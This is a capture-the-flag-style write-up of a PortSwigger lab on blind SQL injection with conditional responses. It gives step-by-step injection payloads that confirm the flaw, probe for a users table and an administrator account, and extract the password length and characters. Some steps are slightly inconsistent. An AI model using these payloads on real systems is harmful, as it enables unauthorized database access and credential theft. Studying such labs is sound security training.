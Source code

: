 # SQL Injection - Blind SQLi with conditional responses

## 📌 Lab Details
- **Title**: Blind SQLi with conditional responses.
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/5aeeac77d52d55cdff3f9a5d86d050c9a77ebfef7657cccb459bee29ad5c3fce?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-responses

## 🔍 Summary
This lab demonstrated how Blind SQLi works and to brute force a password of the administrator.

## 🛠 Steps to Solve
1. Confirm that the parameter is vulnerable to blind SQLi -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o'`.
   If this tracking id exist -> query returns value -> Welcome back message.
   If this tracking id doesn't exist -> query returns nothing.
2. `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and 1=1--'`
   TRUE -> Welcome back
   `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and 1=0--'`
   FALSE -> no message
   This confirms that application is vulnerable to blind SQLi.
3. Confirm that a `users` table exists -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select 'x' from users LIMIT 1)='x'--'`
   TRUE -> Welcome back.
4. Confirm that username `administrator` exist in the database -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select username from users where username='administrator')='administrator'--'`
   TRUE -> Welcome back -> administrator user exists.
5. Determining the length of the password by a brute force attack -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'`
   -> password is exactly `20` characters.
6. Determining the first character of the password -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select substring(password,1,1) from users where username='administrator')='a'--'`
   -> `5` is the first character.
7. Determining the complete password using a `cluster bomb` attack -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select substring(password,1,1) from users where username='administrator')='a'--'`
   -> password is `yffiwhnsfhtirdglb47q`
   
## 📖 Key Takeaways
- Understanding how `Blind SQLi` works.
- Understanding how to implement `brute force` attack with the help of `intruder`.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/3cfb73ba-ca65-4cb3-bb3e-b1df114a7953)
![image](https://github.com/user-attachments/assets/8d172ad5-e80e-4a86-ab79-12a2ae4065a3)
![image](https://github.com/user-attachments/assets/6e66b633-1718-463b-8c84-b4d02cd890f0)
![image](https://github.com/user-attachments/assets/a1d0b0ad-2bab-4a11-ad7a-137662ab372e)
![image](https://github.com/user-attachments/assets/71fd9d4d-3554-4dfc-a6d0-c09f06bdbc52)
![image](https://github.com/user-attachments/assets/06d0ea9b-3bf1-4c48-bb58-be8a300e9c5f)
![image](https://github.com/user-attachments/assets/221e9a93-43cc-414e-9af6-0be883c28e6b)
![image](https://github.com/user-attachments/assets/8bd5637d-7385-4ccb-bdc4-53709d7f6d87)
![image](https://github.com/user-attachments/assets/0d0c8805-768a-4ae4-81d6-59f9833efac2)

